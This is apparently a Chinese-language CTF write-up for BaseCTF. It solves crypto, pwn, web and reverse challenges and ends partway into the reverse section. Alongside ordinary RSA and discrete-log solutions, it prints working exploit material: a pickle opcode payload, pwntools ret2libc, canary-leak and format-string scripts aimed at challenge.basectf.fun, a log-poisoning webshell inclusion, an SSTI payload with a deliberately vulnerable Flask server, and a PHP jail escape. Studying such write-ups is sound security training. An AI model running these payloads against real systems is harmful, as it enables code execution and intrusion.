


### Pickle Init
Pickle 反序列化。

```shell
#!/bin/bash
echo "${GZCTF_FLAG}" > /flag
python3 -c "__import__('pickle').loads(__import__('sys').stdin.read(50).encode('ASCII'))"
```

直接手搓 opcode。

:::info
(S'cat /flag'

ios

system

.

:::

注意这里读够 50 个字符才会有反应，输完以后一直换行就行，然后就能看到 flag。





## <font style="color:rgb(107, 0, 64);">C</font><font style="color:rgb(0, 54, 111);">rypto</font>
### exgcd
```python
from Crypto.Util.number import *

flag=b'BaseCTF{}'
m=bytes_to_long(flag)

p=getPrime(1024)
q=getPrime(1024)

n=p*q
e1=3747
e2=2991

c1=pow(m,e1,n)
c2=pow(m,e2,n)

print("n =",n)
print("e1 =",e1)
print("e2 =",e2)
print("c1 =",c1)
print("c2 =",c2)

"""
n = 27855350163093443890983002241607629119744539643165776358993469078731521668677421483556132628708836721737685936980427467856642738196111748018522018598646125626995613169001111504706363742194664774823604738939411512861441742683157275818500991834651769368178320088982759626122029956515159435424882855075032400667120376075618896752694718491438251810609878021717559466498493103257912108879328270813061231904227056671621363669388496383136964549879459562004569059185078204867346250733489663015417879915436157806942021693920206071715538430633494012923651469196048546309592946901609803631751035364478773126967010589504275776307
e1 = 3747
e2 = 2991
c1 = 24426579024062518665031958216110619832653602343205488454298659533869220501923184793828421371206493659949730138867555889074137026401207985428160803910695088081370233571905915349589146504374710444468715701305061060934519410886010929009297226496448218819742287990364436349188987723637449590579092391100714056589967894609950537021838172987840638735592599678186555961654312442380755963257875487240962193060914793587712733601168204859917001269928487633954556221987632934190217367502677285906521385169669644977192556145782303526375491484736352799180747403161343130663661867413380222714012960607473395828938694285120527085083
c2 = 6932145147126610816836065944280934160173362059462927112752295077225965836502881335565881607385328990881865436690904056577675885697508058289570333933837515526915707121125766720407153139160751343352211421901876051228566093038929625042619250168565502734932197817082848506826847112949495527533238122893297049985517280574646627011986403578166952789317461581409161873814203023736604394085875778774834314777046086921852377348590998381648241629124408514875110073073851913857329679268519229436092660959841766848676678740851087184214283196544821779336090434587905158006710112461778939184327386306992082433561460542130441825293
"""
```

共模攻击变体，e1,e2 不互素。

```python
import gmpy2
from Crypto.Util.number import *
n = 27855350163093443890983002241607629119744539643165776358993469078731521668677421483556132628708836721737685936980427467856642738196111748018522018598646125626995613169001111504706363742194664774823604738939411512861441742683157275818500991834651769368178320088982759626122029956515159435424882855075032400667120376075618896752694718491438251810609878021717559466498493103257912108879328270813061231904227056671621363669388496383136964549879459562004569059185078204867346250733489663015417879915436157806942021693920206071715538430633494012923651469196048546309592946901609803631751035364478773126967010589504275776307
e1 = 3747
e2 = 2991
c1 = 24426579024062518665031958216110619832653602343205488454298659533869220501923184793828421371206493659949730138867555889074137026401207985428160803910695088081370233571905915349589146504374710444468715701305061060934519410886010929009297226496448218819742287990364436349188987723637449590579092391100714056589967894609950537021838172987840638735592599678186555961654312442380755963257875487240962193060914793587712733601168204859917001269928487633954556221987632934190217367502677285906521385169669644977192556145782303526375491484736352799180747403161343130663661867413380222714012960607473395828938694285120527085083
c2 = 6932145147126610816836065944280934160173362059462927112752295077225965836502881335565881607385328990881865436690904056577675885697508058289570333933837515526915707121125766720407153139160751343352211421901876051228566093038929625042619250168565502734932197817082848506826847112949495527533238122893297049985517280574646627011986403578166952789317461581409161873814203023736604394085875778774834314777046086921852377348590998381648241629124408514875110073073851913857329679268519229436092660959841766848676678740851087184214283196544821779336090434587905158006710112461778939184327386306992082433561460542130441825293
g = gmpy2.gcd(e1, e2)
print(g)
# g = 3
l, x, y = gmpy2.gcdext(e1//3, e2//3)
m = pow(c1, x, n)*pow(c2, y, n) % n
m = gmpy2.iroot(m, 3)
print(m)
m = 608975871998468334282650350630215022146019013860819014230387086636516306190410311328800902615299562946323581
print(long_to_bytes(m))
#b'BaseCTF{feb7e1ae-a8f7-4fc4-8d6d-945a45cc3f6d}'
```

### ez_log
```python
from Crypto.Util.number import bytes_to_long as b2l, long_to_bytes as l2b, getPrime
from Crypto.Cipher import AES
from random import randint


flag = b"flag{test_flag}"

pad = lambda x: x+b'\x00'*(16-len(x)%16)

def encrypt(KEY):
    cipher= AES.new(KEY,AES.MODE_ECB)
    encrypted =cipher.encrypt(flag)
    return encrypted
def decrypt(KEY):
    cipher= AES.new(KEY,AES.MODE_ECB)
    decrypted =cipher.decrypt(enc)
    return decrypted

flag = pad(flag)
x = randint(10 ** 7, 10 ** 8)
y = randint(10 ** 7, 10 ** 8)
n = getPrime(28)
z = pow(y, x, n)

enc = encrypt(pad(l2b(x)))
print(f'enc = {b2l(enc)}')
print(f'y = {y}')
print(f'n = {n}')
print(f'z = {z}')

'''
enc = 33416570913716503492297352041317858420349510954381249751537743898024527101872454706181188441210166165803904185550746
y = 82941012
n = 228338567
z = 51306718
'''


```


离散对数，已知 y，z，n，求 x，sage 有一个函数 discrete_log 可以做到。



跑出来 x 以后，剩下的就是 DES 解密。

```python
from Crypto.Util.number import bytes_to_long as b2l, long_to_bytes as l2b, getPrime
from Crypto.Cipher import AES
from Crypto.Util.number import *

enc = 33416570913716503492297352041317858420349510954381249751537743898024527101872454706181188441210166165803904185550746
x = 38806815
pad = lambda x: x+b'\x00'*(16-len(x)%16)
def decrypt(KEY):
    cipher= AES.new(KEY,AES.MODE_ECB)
    decrypted =cipher.decrypt(enc)
    return decrypted
enc = l2b(enc)
flag = decrypt(pad(l2b(x)))
print(flag)
#b'BaseCTF{BF3DCONZ-67FE-ENZU-385S-CSNI13B2}\x00\x00\x00\x00\x00\x00\x00'
```

### 没有n啊
```python
from Crypto.Util.number import *
import gmpy2

flag=b'BaseCTF{}'
m=bytes_to_long(flag)

p=getPrime(512)
q=getPrime(512)

n=p*q
e=65537

phi=(p-1)*(q-1)
d=gmpy2.invert(e,phi)

c=pow(m,e,n)
x=pow(n,e,c)
print("c =",c)
print("e =",e)
print("d =",d)
print("x =",x)
'''
c = 52453423663797600504896811946820841317615798875871627840172711423749946998217916744135290476795328543876098295227017753117609268701786914053599060330837226980969490439739651088710549890669593587642238827462108900683237797139569260570711611781514337884756698142193277516649805710242748531658979160170193283558
e = 65537
d = 54297831548863701092644190086258072883163378307246681513317422545902442650340916001357605211715836911877651782099787873046987096258918495734824011752504203578982947618784736181975847356304742402103468329660346526185908618978851982007496096394151821403282347897417590596861323293706611997134962231129075032641
x = 40635864473997460751766935373772107585133301579524000836637683731949939348171187931595274511243052505604832873086269554842194695737052043633079044688826020656068356561856848814530947955429343483847291398607359454851926470168457852479044154798114087493843073091985855839008222762224952503563764527380033064437
'''

```

可以把 `x=pow(n,e,c)` 看成另一次 RSA 加密。

直接分解 c，然后解出来 n，注意解出来的 n 要再加上 c，因为这里的 n 比 c 小。

```python
import libnum
c = 52453423663797600504896811946820841317615798875871627840172711423749946998217916744135290476795328543876098295227017753117609268701786914053599060330837226980969490439739651088710549890669593587642238827462108900683237797139569260570711611781514337884756698142193277516649805710242748531658979160170193283558
e = 65537
d = 54297831548863701092644190086258072883163378307246681513317422545902442650340916001357605211715836911877651782099787873046987096258918495734824011752504203578982947618784736181975847356304742402103468329660346526185908618978851982007496096394151821403282347897417590596861323293706611997134962231129075032641
x = 40635864473997460751766935373772107585133301579524000836637683731949939348171187931595274511243052505604832873086269554842194695737052043633079044688826020656068356561856848814530947955429343483847291398607359454851926470168457852479044154798114087493843073091985855839008222762224952503563764527380033064437
P1 = 2
P2 = 3
P3 = 73
P4 = 3967
P5 = 6373
P6 = 4744823012787277141
P7 = 95592293
P8 = 216465863
P9 = 48245998253859255581546561942142167304434549996919484957120717763726325509833409296170471619434291990255044694414983821250538266717293535917534918221352198192885071310932646412147737114561229291373456448363184353049796801297876664512630305475226391199481032049429
phic = (P1-1)*(P2-1)*(P3-1)*(P4-1)*(P5-1)*(P6-1)*(P7-1)*(P8-1)*(P9-1)
assert (P1)*(P2)*(P3)*(P4)*(P5)*(P6)*(P7)*(P8)*(P9)==c
d0 = libnum.invmod(e,phic)
n = pow(x,d0,c)
n+=c
print(n)
m = pow(c,d,n)
print(libnum.n2s(m))
#b'BaseCTF{2eefa8ef-ba57-4bed-9230-d280ac2273d8}'

```

### 没有n啊 _pro
<font style="color:rgb(51, 51, 51);">根据</font><font style="color:rgb(51, 51, 51);">，很容易联想到</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">e*d-1=k*(p-1)*(q-1)</font>`<font style="color:rgb(51, 51, 51);">，因此我们直接分解</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">e*d-1</font>`<font style="color:rgb(51, 51, 51);">得到所有因子后任意组合寻找所有可能的质数对来找到flag：</font>

```python
import itertools
from sage.all import is_prime, prod

# 给定的因子
factors = [
    2, 2, 2, 2, 2, 2,
    3, 5, 7,
    11, 23, 37, 37,
    107, 109,
    2459411,
    387743680517,
    3890467155441207614773027481,
    8461199191085678833423
]

# 128位数的上限和下限
lower_bound = 2^127
upper_bound = 2^128 - 1

def find_128bit_prime_pairs(factors):
    nmsl = [(0, 0)]
    for r in range(1, len(factors) + 1):
        for combination in itertools.combinations(factors, r):
            combination_product = prod(combination)
            candidate_prime = combination_product + 1

            if lower_bound <= candidate_prime <= upper_bound and is_prime(candidate_prime):
                remaining_factors = factors[:]
                for factor in combination:
                    remaining_factors.remove(factor)

                # 寻找第二个组合
                for r2 in range(1, len(remaining_factors) + 1):
                    for second_combination in itertools.combinations(remaining_factors, r2):
                        second_combination_product = prod(second_combination)
                        second_candidate_prime = second_combination_product + 1

                        if lower_bound <= second_candidate_prime <= upper_bound and is_prime(second_candidate_prime):
                            if (candidate_prime, second_candidate_prime) not in nmsl:
                                nmsl.append((candidate_prime, second_candidate_prime))
    return nmsl

result = find_128bit_prime_pairs(factors)

if result:
    print(result)
else:
    print("No valid pairs found.")

```

```python
import gmpy2
import binascii


e = 65537
c = 78919950899709764543039048006935881842075789773495004639436106636461009323420
d = 13002488326322253055272696035053386340217207134816593767440035447757509399233

nmsl = [(335826709359367175091362661689006406719, 285749072985257137432812978719618046719), (335826709359367175091362661689006406719, 269482983019231455013103149004907418741), (285749072985257137432812978719618046719, 335826709359367175091362661689006406719), (315331501329058767516979539535668560597, 317552920530770038880305332340917931273), (315331501329058767516979539535668560597, 269482983019231455013103149004907418741), (317552920530770038880305332340917931273, 315331501329058767516979539535668560597), (269482983019231455013103149004907418741, 335826709359367175091362661689006406719), (269482983019231455013103149004907418741, 315331501329058767516979539535668560597)]
            # Calculate n and phi
for pq in nmsl:
    p = pq[0]
    q = pq[1]   
    n = p * q
    phi = (p - 1) * (q - 1)

    flag = hex(pow(c, d, n))[2:]
    print(f"Decrypted flag: {binascii.unhexlify(flag)}")
# Decrypted flag: b'BaseCTF{3e226a94-babb27696416}'
```

### wiener?
<font style="color:rgb(51, 51, 51);">套板子，连分数分解就行，找到q之后去找到p就能算出flag：</font>

```python
import gmpy2
import libnum
from tqdm import trange
from Crypto.Util.number import *
def transform(x,y):       #使用辗转相处将分数 x/y 转为连分数的形式
    res=[]
    while y:
        res.append(x//y)
        x,y=y,x%y
    return res
    
def continued_fraction(sub_res):
    numerator,denominator=1,0
    for i in sub_res[::-1]:      #从sublist的后面往前循环
        denominator,numerator=numerator,i*numerator+denominator
    return denominator,numerator   #得到渐进分数的分母和分子，并返回

    
#求解每个渐进分数
def sub_fraction(x,y):
    res=transform(x,y)
    res=list(map(continued_fraction,(res[0:i] for i in range(1,len(res)))))  #将连分数的结果逐一截取以求渐进分数
    return res

def wienerAttack(e,n):
    for (q,p) in sub_fraction(e,n):  #用一个for循环来注意试探e/n的连续函数的渐进分数，直到找到一个满足条件的渐进分数
        for i in range(1):
            if (q + i).bit_length() == 1024 and isPrime(q + i):
                return q + i
    print("该方法不适用")
    
P = 829374344780877053838760251345359097311540811993463349625630085472892814959843248358036249898871908548743719153319438638517170060651237635838827482534816419091949205584951292517303330452910012749674475329235689229498752425379611083979518257734473992186831474208400813283887045691145481237726578827559198828469462343342343287720369159899636816373592067698883361360269728719786071024354151682314608072902347335691012713629816579496252896260869382806838857194293618332286500427694077400072428506897829689703872985954772105672992293334668485358785863779749153981721900135318166811250762946069962348114491411585418993494561587403918162681937152503739843
Q = 10 ** (648)  
e = 65537
c = 11032748573623426359632659657114807044712138586316710250985606809252700461490504487308849626514319062562557448839550994242999334882617031487618174168038491566640081840111747765753878087564318833273878755416584962921669911444225959335274753391800995531023212276838665202257007640354237043291129197348884914956663597240094662207929658519596987351984403258345205873566463643624175318315064440456858013874962784792564480286904620663695194689839431808082976248378509181327101557380978849545906691903896662095520288964101796965095129861467059775556110616007889846240936219381379219605528051627402300580239311202137582442057

q = wienerAttack(P,Q)
print("find q:", q)

import decimal
decimal.getcontext().prec = 648
P=decimal.Decimal(P)
Q=decimal.Decimal(Q)
q=decimal.Decimal(q)
p = ((3 * q * q) * (P / Q) + 1) / (3 * q)
p = int(p)
q = int(q)

for i in range(-9689, (10 ** 4)):
    p = p + i
    if isPrime(p):
        print("find p:", p)
        import gmpy2    
        
        import binascii    

        phi = (p-1)*(q-1)
        n = p*q
        d = gmpy2.invert(e, phi)   
        
        try:
            jiemi = hex(pow(c,d,n))[2:]    
            if b'BaseCTF' in binascii.unhexlify(jiemi): 
                print(binascii.unhexlify(jiemi))
        except:
            pass
# find p: 119907028278567845235506373802800917236895941367084087587127600363910278508168512097432182347779593566777833644114737013030102978352736559423844458908269818766749507767928866467378000457468115762185700861616741867928872961942143508060217531913932628603330329068804443925588974206668165378552497949181656914817
# b'BaseCTF{9431ee53-5d5c-4b0b-956f-1eafff6c9e87}'
```


## <font style="color:rgb(107, 0, 64);">P</font><font style="color:rgb(0, 54, 111);">wn</font>
### stack_in_stack
<font style="color:rgb(51, 51, 51);">白给的栈迁移，还给了后门，直接ret2libc。</font>

```python
from pwn import *
p = process('./pwn')
p = remote('challenge.basectf.fun', 37529)
elf = ELF('./pwn')
lib = elf.libc

p.recvuntil(b'0x')
stack = int(p.recv(12), 16)
print(hex(stack))

payload = p64(0x4011C6) + p64(0x4010E0)
payload = payload.ljust(0x30, b'A') + p64(stack - 0x8) + p64(0x4012F2)
p.send(payload)

p.recvuntil(b'0x')
lib.address = int(p.recv(12), 16) - lib.symbols['puts']
print(hex(lib.address))

p.recvuntil(b'0x')
stack = int(p.recv(12), 16)
print(hex(stack))

pop_rdi = 0x000000000002a3e5 + lib.address
binsh = next(lib.search(b'/bin/sh'))
system = lib.symbols['system']

payload = p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x30, b'A') + p64(stack - 0x8) + p64(0x4012F2)
p.send(payload)

p.interactive()
```

### PIE
<font style="color:rgb(51, 51, 51);">构造一次重回把libc带出来就行。</font>

```python
from pwn import *
p = process('./pwn')
p = remote('challenge.basectf.fun', 44780)
elf = ELF('./pwn')
lib = elf.libc

pay = b'a' * 0x100 + b'b' * 8 + p8(0x4c)
p.send(pay)
p.recvuntil(b'b' * 8)
lib.address = u64(p.recv(6).ljust(8, b'\x00')) - 0x29d4c
print(hex(lib.address))

pop_rdi = 0x000000000002a3e5 + lib.address
binsh = next(lib.search(b'/bin/sh'))
system = lib.symbols['system']

pay = cyclic(0x108) + p64(pop_rdi) + p64(binsh) + p64(pop_rdi + 1) + p64(system)
p.send(pay)
p.interactive()
```

### 你为什么不让我溢出
<font style="color:rgb(51, 51, 51);">第一次末位覆盖泄露canary第二次返回后门。</font>

```python
from pwn import *
p = process('./pwn')
p = remote('challenge.basectf.fun', 41480)
elf = ELF('./pwn')

pay = b'a' * 0x68 + b'b'
p.send(pay)
p.recvuntil(b'b')
canary = u64(p.recv(7).rjust(8, b'\x00'))
print(hex(canary))

back = 0x4011Be
pay = b'a' * 0x68 + p64(canary) + p64(0) + p64(back)
p.send(pay)

p.interactive()
```

### format_string_level2
<font style="color:rgb(51, 51, 51);">没给libc，简单测了一下和本地一样的直接打printf的got表为system就行。</font>

```python
from pwn import *
p = process('./pwn')
p = remote('challenge.basectf.fun', 42416)
elf = ELF('./pwn')
lib = elf.libc

p.send(b'%41$p')
p.recvuntil(b'0x')
base_addr = int(p.recv(12), 16) - 0x29d90
print(base_addr)

system = base_addr + lib.symbols['system']
system_1 = system & 0xffff
system_2 = (system >> 16) & 0xffff

if system_1 > system_2:
    payload = '%{}c%10$hn%{}c%11$hn'.format(system_2, system_1 - system_2)
    payload = payload.encode().ljust(0x20, b'A') + p64(elf.got['printf']) + p64(elf.got['printf'] + 2)
else:
    payload = '%{}c%11$hn%{}c%10$hn'.format(system_1, system_2 - system_1)
    payload = payload.encode().ljust(0x20, b'A') + p64(elf.got['printf'] + 2) + p64(elf.got['printf'])
# payload = 
p.send(payload)
# p.send(b'/bin/sh\x00')
p.interactive()
```

### 五子棋
<font style="color:rgb(51, 51, 51);">逆向分析发现只有两次输入并且胜利会触发后门，但是五子棋肯定不可能两次输入就赢了，再检查发现有个数组溢出，约等于在这前面我可以任意写0，去看数组前面能改的有什么，发现一个</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">dword_4020</font>`<font style="color:rgb(51, 51, 51);">和</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">dword_4040</font>`<font style="color:rgb(51, 51, 51);">，交叉引用发现这两个数组在检查胜利的时候用到了，感觉像是表示方向的，随机改一个数之后发现我输了，调试了一下发现需要棋盘有我的落子，应该就是因为这个出题人给了两次输入，直接手动交互拿到shell：</font>

```shell
0 0
0 -5965
```

## <font style="color:rgb(107, 0, 64);">W</font><font style="color:rgb(0, 54, 111);">eb</font>
### 滤个不停
```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$incompetent = $_POST['incompetent'];
$Datch = $_POST['Datch'];

if ($incompetent !== 'HelloWorld') {
    die('写出程序员的第一行问候吧！');
}

//这是个什么东东？？？
$required_chars = ['s', 'e', 'v', 'a', 'n', 'x', 'r', 'o'];
$is_valid = true;

foreach ($required_chars as $char) {
    if (strpos($Datch, $char) === false) {
        $is_valid = false;
        break;
    }
}

if ($is_valid) {

    $invalid_patterns = ['php://', 'http://', 'https://', 'ftp://', 'file://' , 'data://', 'gopher://'];

    foreach ($invalid_patterns as $pattern) {
        if (stripos($Datch, $pattern) !== false) {
            die('此路不通换条路试试?');
        }
    }


    include($Datch);
} else {
    die('文件名不合规 请重试');
}
?> 
```

第一层很简单，就是一个简单的判断字符串相等，传入指定字符串即可。

第二层是文件包含漏洞，过滤了很多协议，这里可以使用日志包含。

在 UA 头中写入一句话木马，然后包含 `/var/log/nginx/access.log`。



### 玩原神玩的
```python
<?php
highlight_file(__FILE__);
error_reporting(0);

include 'flag.php';
if (sizeof($_POST['len']) == sizeof($array)) {
  ys_open($_GET['tip']);
} else {
  die("错了！就你还想玩原神？❌❌❌");
}

function ys_open($tip) {
  if ($tip != "我要玩原神") {
    die("我不管，我要玩原神！😭😭😭");
  }
  dumpFlag();
}

function dumpFlag() {
  if (!isset($_POST['m']) || sizeof($_POST['m']) != 2) {
    die("可恶的QQ人！😡😡😡");
  }
  $a = $_POST['m'][0];
  $b = $_POST['m'][1];
  if(empty($a) || empty($b) || $a != "100%" || $b != "love100%" . md5($a)) {
    die("某站崩了？肯定是某忽悠干的！😡😡😡");
  }
  include 'flag.php';
  $flag[] = array();
  for ($ii = 0;$ii < sizeof($array);$ii++) {
    $flag[$ii] = md5(ord($array[$ii]) ^ $ii);
  }
  
  echo json_encode($flag);
}
```

第一次判断传入的数组是否和 array 数组大小相等，我们不知道 array 数组的大小，只能爆破。

这里写一个脚本获取 payload，然后手动删改爆破。

```python
payload=''
for i in range(100):
    payload+='len['+str(i)+']=0&'
print(payload)
```

爆破后发现 array 的长度为 45，进入第二层。

第二层很简单，传入指定字符串即可。

第三层要求传入一个 m 数组，其中 m[0] 是字符串 `<font style="color:#dd0000;">100%</font>`<font style="color:#dd0000;"> </font>，m[1] 是字符串 `<font style="color:#dd0000;">love100%</font>`<font style="color:#dd0000;"> </font>拼接 m[0] 的 md5 值。

注意 % 需要 URL 编码。

最后一层，给出加密后的 flag 数组，加密流程很简单，就是把 flag 每一个字符的 ASCII 值和当前索引异或再取 md5 值，挨个输出，写一个脚本爆破即可。

```python
from hashlib import md5
enc = ["3295c76acbf4caaed33c36b1b5fc2cb1","26657d5ff9020d2abefe558796b99584","73278a4a86960eeb576a8fd4c9ec6997","ec8956637a99787bd197eacd77acce5e","e2c420d928d4bf8ce0ff2ec19b371514","43ec517d68b6edd3015b3edc9a11367b","ea5d2f1c4608232e07d3aa3d998e5135","c8ffe9a587b126f152ed3d89a146b445","44f683a84163b3523afe57c2e008bc8c","c9e1074f5b3f9fc8ea15d152add07294","2838023a778dfaecdc212708f721b788","66f041e16a60928b05a7e228a89c3799","072b030ba126b2f4b2374f342be9ed44","072b030ba126b2f4b2374f342be9ed44","2723d092b63885e0d7c260cc007e8b9d","2723d092b63885e0d7c260cc007e8b9d","7f39f8317fbdb1988ef4c628eba02591","e369853df766fa44e1ed0ff613f563bd","182be0c5cdcd5072bb1864cdee4d3d6e","a1d0c6e83f027327d8461063f4ac58a6","e369853df766fa44e1ed0ff613f563bd","9f61408e3afb633e50cdf1b20de6f466","e369853df766fa44e1ed0ff613f563bd","73278a4a86960eeb576a8fd4c9ec6997","f7177163c833dff4b38fc8d2872f1ec6","c8ffe9a587b126f152ed3d89a146b445","b53b3a3d6ab90ce0268229151c9bde11","4c56ff4ce4aaf9573aa5dff913df997a","6c8349cc7260ae62e3b1396831a8398f","4c56ff4ce4aaf9573aa5dff913df997a","d645920e395fedad7bbbed0eca3fe2e0","c0c7c76d30bd3dcaefc96f40275bdc0a","a3f390d88e4c41f2747bfa2f1b5f87db","b6d767d2f8ed5d21a44b0e5886680cb9","37693cfc748049e45d87b8c7d8b9aacd","b6d767d2f8ed5d21a44b0e5886680cb9","c74d97b01eae257e44aa9d5bade97baf","33e75ff09dd601bbe69f351039152189","6f4922f45568161a8cdf4ad2299f6d23","34173cb38f07f89ddbebc2ac9128303f","33e75ff09dd601bbe69f351039152189","c16a5320fa475530d9583c34fd356ef5","c16a5320fa475530d9583c34fd356ef5","6ea9ab1baa0efb9e19094440c317e21b","43ec517d68b6edd3015b3edc9a11367b"]
flag=''
for i in range(45):
    for c in range(127):
        if(md5(str(c^i).encode()).hexdigest()==enc[i]):
            flag+=chr(c)
            break
print(flag)
#BaseCTF{6a9101cb-3396-4f4e-b1d6-d75549494656}
```

### 复读机
一眼 SSTI，过滤了很多东西，而且要求传入的字符串必须以 BaseCTF{ 开头，还会检测括号匹配。

这里使用工具 Fenjing，本地先搭一个可以被 SSTI 的服务器，然后手动把过滤的字符串都试出来，再用 Fenjing 跑。

```python
"""一个可以被SSTI的服务器
"""
import random

from flask import Flask, request, render_template_string
from jinja2 import Template

app = Flask(__name__)

blacklist = ['{{', '}}', '__', '.', '*', '+', '-', '/', '"', ':', '\\' , 'class', 'base', 'mro', 'init', 'global', 'builtin', 'config', 'request', 'lipsum', 'cycler', 'url_for', 'os', 'pop', 'format', 'replace', 'reverse'] 

@app.route("/", methods=["GET", "POST"])
def index():
    name = request.args.get("name", "world")
    if any(w in name for w in blacklist):
        return "NO!"
    template = f"""
Hello, {name}
<form action="/" method="GET">
<input type="text" name="name" id="">
<input type="submit" value="">
</form>
"""

    return render_template_string(template)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)

```

跑出来的 payload 需要在前面加上 BaseCTF，然后末尾需要做一些修改，否则不符合要求的格式就会被拦截。



最终 payload:

:::info
BaseCTF{%set ca='%c%c%c%c%c%c%c%c%c'%(99,97,116,32,47,102,108,97,103)%}

:::


### ez_php_jail
php 沙盒逃逸。



<font style="color:#000000;">当 php 版本小于 8 时，</font>GET 请求的参数名含有 `.`，会被转为 `_`，但是如果参数名中有 `[`，这个 `[` 会被直接转为 `_`，但是后面如果有 `.`，这个 `.` 就不会被转为 `_`。

:::info
?Jail[by.Happy=xxxxxx

:::

 现在考虑如何得到 flag，过滤了很多内容，但是 highlight_file 函数可以完美绕过。

:::info
?Jail[by.Happy=highlight_file(glob("/f*")[0]);

:::


## <font style="color:rgb(107, 0, 64);">R</font><font style="color:rgb(0, 54, 111);">everse</font>
### 世界上最简单的题目
```python
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
